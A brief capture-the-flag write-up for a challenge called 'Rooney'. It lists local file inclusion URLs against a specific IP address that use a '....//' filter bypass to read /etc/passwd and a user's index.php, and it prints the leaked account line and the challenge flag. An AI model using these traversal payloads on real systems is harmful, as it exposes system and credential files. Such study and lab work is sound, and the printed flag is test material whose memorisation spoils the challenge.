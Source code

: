 # Rooney
## LFI
http://178.62.48.181/~rooney/?path=....//index.php
http://178.62.48.181/~rooney/?path=....//....//....//....//....//etc/passwd
=> `th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash`

http://178.62.48.181/~rooney/?path=....//....//....//....//home/th1sizveryl0ngus3rn4me/public\_html/index.php
=> `ASIS{I_l0V3_Us3rD1r_Mpdul3!!}`
